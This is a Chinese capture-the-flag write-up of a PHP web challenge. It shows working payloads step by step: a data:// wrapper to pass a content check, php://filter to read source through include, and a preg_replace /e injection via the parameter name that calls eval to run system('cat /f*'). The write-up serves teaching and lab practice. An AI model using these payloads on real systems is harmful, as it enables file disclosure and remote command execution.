


# [BJDCTF2020] ZJCTF，不过如此



## 第一层：text 限制

```php
$text = $_GET["text"];
$file = $_GET["file"];

if(isset($text) && (file_get_contents($text,'r') === "I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/", $file)){
        die("Not now!");
    }
    include($file);  //next.php
}
```

审计代码，观察 `text` 有内容限制才能走到 `include`。

而且 `file_get_contents($text,'r')` 的 **第一个参数是 `$text` 本身** —— 也就是说 `$text` 得是一个「能被读取的东西」，不一定是文件路径。

这里想到用 **data 协议**，让 `file_get_contents` 直接读到我们指定的字符串：

```text
/?text=data://text/plain,I have a dream
```

**注意**：这一步要让 `file_get_contents($text)` 返回 `I have a dream`，不是写文件。

## 第二层：include 把 next.php 执行了

**接着构造：**

```text
/?text=data://text/plain,I have a dream&file=next.php
```

**但是页面并没有给出文件内容** —— 因为 `include` 把 `next.php` 当成代码执行了，而不是读出来显示。

所以改用 **php 伪协议** 读源码（`convert.base64-encode` 让它不被执行）：

```text
/?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

**解码后得到 `next.php` 的源码。**

## next.php 源码

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
    @eval($_GET['cmd']);
}
```

先看 `foreach`：它把 GET 得到的**名字传给 `$re`**，**值传给 `$str`**。

接着看这个最重要的正则表达式：`i` 是忽略大小写，`e` 是 **eval**，`(...)` 把整个匹配包成了**捕获组 1**，也就是 `strtolower` 里的 `\1`；在 PHP 单引号中的 `\\1` 等效于 `\1`。

## `$re` 到底在干什么

**`$re` 就是 URL 里参数的名字，它被直接拼进了正则。**

```php
foreach($_GET as $re => $str)     // $re = 参数名,$str = 参数值
      ↓
'/(' . $re . ')/ei'              // 参数名成了正则主体
```

**所以 `$re` 决定了三件事：**

| `$re` 决定 | 说明 |
|---|---|
| **匹配什么** | 它必须能匹配到 `$str` 里的内容，否则 `\1` 拿不到东西，注入不成立 |
| **捕获组 1 是什么** | 整个 `$re` 被 `(...)` 包住，所以匹配到的内容就是 `\1` |
| **替换串里塞进什么** | `\1` 被原样拼进 `strtolower("\1")`，然后整体被 eval |

**反过来说：**

```text
想要代码执行,必须让 匹配到的内容 = 我们的 payload
而"匹配到的内容"由 $re 决定
→ 所以 $re 必须是一个"什么都匹配"的宽泛正则
```

**还有两个约束：**

```text
① $re 里不能有 /      → 会把正则模式提前截断
② $re 不能是 .        → PHP 会把参数名里的 . 换成 _
```

## `/e` 为什么能执行代码

替换串是 `strtolower("\1")`。带 `e` 修饰符时，替换串会**先做反向引用替换，再把结果当成 PHP 代码执行**。

而 `\1` 在双引号里，所以只要捕获到的内容带 `"` 或 `${...}`，就能跳出字符串变成真代码。

**PHP 5.x 里 `${表达式}` 会对表达式求值**：

```text
strtolower("${phpinfo()}")
           └────┬─────┘
        执行 phpinfo()
```

**所以我们要做的，就是把 `\1` 的位置变成 `${getFlag()}`。**

## 试错过程

**先试：**

```text
/?.*=${phpinfo()}
```

**页面无回显。**

**原因：PHP 解析 URL 参数时会把参数名里的 `.` 和空格统一换成 `_`，所以 `.*` 变成了 `_*`，正则变成 `/(_*)/ei` —— 匹配不到 `${phpinfo()}`，所以没反应。**

**换 `\S`（匹配任意非空白字符）代替 `.`：**

```text
/?\S*=${phpinfo()}
```

**成功得到回显。**

!!! note "为什么必须大写 S"

    `\S` = 非空白字符（大写 S 是「非」）。
    
    `\s` = 空白字符 —— 写反了就匹配不到 `${phpinfo()}`。

## 最终 payload

```text
/next.php?\S*=${getFlag()}&cmd=system('cat /f*');
```

**注意最后要有分号** —— `eval` 执行时需要 `;` 作为一条代码的结束。



```text
CTF2{4497b560-3b8c-48c7-9991-bc1d0d9bce8c}
```

## 为什么 `cmd` 末尾的分号不能省

`getFlag()` 里是：

```php
@eval($_GET['cmd']);
```

所以实际执行的是 `eval("system('cat /f*');")`。

**`eval` 把字符串当代码重新解析，必须是一条完整语句**：

```php
eval('echo "A"');    // ❌ syntax error, unexpected end of file, expecting ';'
eval('echo "A";');   // ✅
```

## 完整链路

```text
① data:// 骗过 file_get_contents     text=data://text/plain,I have a dream
② php://filter 读源码(不执行)        file=php://filter/read=convert.base64-encode/resource=next.php
③ 看懂 foreach:参数名=正则           $re
④ /e 让替换串被 eval                 strtolower("\1")
⑤ 用 \S* 当参数名(避开 . 被吃)       ?\S*=${phpinfo()}
⑥ 调 getFlag() 并带 cmd              ?\S*=${getFlag()}&cmd=system('cat /f*');
```

## 知识点

| 点 | 内容 |
|---|---|
| `data://` | 让 `file_get_contents` 读到指定内容 |
| `php://filter` | 读源码而不执行（`convert.base64-encode`） |
| `/e` 修饰符 | PHP 5.x 专用，替换串被 eval；PHP 7 已移除 |
| `${表达式}` | PHP 双引号插值里会对表达式求值（`{}` 单层，不是 `{{}}`） |
| 参数名即输入 | `foreach($_GET as $re => $str)` 让**参数名**成了攻击面 |
| `parse_str` 的坑 | 参数名里 `.` 和空格会变成 `_` |
| `eval` 的分号 | 必须语法完整，`@` 会吞掉报错 |
